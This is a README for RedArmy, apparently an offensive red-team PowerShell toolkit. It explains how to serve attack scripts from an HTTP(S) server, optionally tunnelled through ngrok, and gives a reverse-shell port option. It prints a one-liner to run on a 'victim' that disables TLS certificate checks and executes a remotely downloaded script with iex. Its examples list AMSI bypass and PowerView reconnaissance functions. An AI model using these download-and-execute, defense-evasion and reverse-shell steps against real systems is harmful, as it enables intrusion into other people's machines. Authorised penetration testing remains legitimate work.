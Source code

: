 # RedArmy

## Installation

```
$ git clone https://gitlab.com/mjwhitta/redarmy.git
$ cd ./redarmy
$ git submodule update --init --recursive
$ git submodule foreach "$(pwd)/scripts/update_module" # optional
```

## Configuration

RedArmy uses `config.default` as [the default config]. You can copy it
to `config` and add or delete lines as necessary.

Config entries look like the following:

```
name action path
```

Name and path are fairly self-explanatory. Actions are as follows:

- `get`
    - Creates
        - `Get-<name>`
            - Get file contents
        - `Deploy-<name>`
            - Create ScriptBlock and run in provided PSSession
- `get-bin`
    - Creates
        - `Import-<name>`
            - Create assembly object and load into memory
        - `Deploy-<name>`
            - Create assembly object and load into memory in provided
              PSSession
- `run`
    - Creates
        - `Get-<name>`
            - Get file contents
        - `Invoke-<name>`
            - Run `iex` on file contents
        - `Invoke-<name>InBg`
            - Run `iex` on file contents in background
        - `Deploy-<name>`
            - Create ScriptBlock and run in provided PSSession
        - `Deploy-<name>InBg`
            - Create ScriptBlock and run in provided PSSession in
              background
- `run-bin`
    - Not yet implemented

See [the default config] for examples. See [Examples](#examples) for
more details on how to use these functions.

[the default config]: ./config.default

## Usage

```
$ ./serve -h
Usage: serve [OPTIONS] <ip>

Spin up a simple HTTP(S) server to host the RedArmy scripts.

Options:
    --cert=PEM           Use the specified cert PEM file for TLS,
                         implies --tls, requires --key
    -c, --config=FILE    Use the specified config
    -h, --help           Display this help message
    --invade=FILE        Use the specified invade filename instead of
                         invade.html
    --key=PEM            Use the specified key PEM file for TLS,
                         implies --tls, requires --cert
    -n, --ngrok          Use ngrok for TLS (ensure ssh is
                         pre-configured)
    --no-color           Disable colorized output
    -p, --port=NUM       Use the specified port (default: 8080 for
                         HTTP, 8443 for TLS)
    -r, --rport=NUM      Use the specified port for reverse shell
                         (default: 4444)
    --rshell=FILE        Use the specified rshell filename instead of
                         rshell.html
    --skip-validation    Disable TLS certificate validation (for use
                         with self-signed certs)
    --tls                Use TLS
    -u, --update         Update git submodules before starting server
```

Once the `serve` script is running, you can use the following to load
RedArmy on the victim:

```
PS> [System.Net.ServicePointManager]::ServerCertificateValidationCallback={$true}
PS> iex ((New-Object System.Net.WebClient).DownloadString("http://<ip>:<port>/invade.html"))
```

That command will also displayed for you to copy and paste for
convenience.

### Examples

- Load ps1 script into current session
    - `iex (Get-PowerView)`
- Load ps1 script into specified session
    - `Deploy-PowerView <session>`
- Load binary object into current session
    - `Import-ADModule`
- Load binary object into specified session
    - `Deploy-ADModule <session>`
- Run ps1 script in current session
    - `Invoke-AMSIBypass`
- Run ps1 script in current session in background
    - `Invoke-AMSIBypassInBg`
- Run ps1 script in specified session
    - `Deploy-AMSIBypass <session>`
- Run ps1 script in specified session in background
    - `Deploy-AMSIBypassInBg <session>`
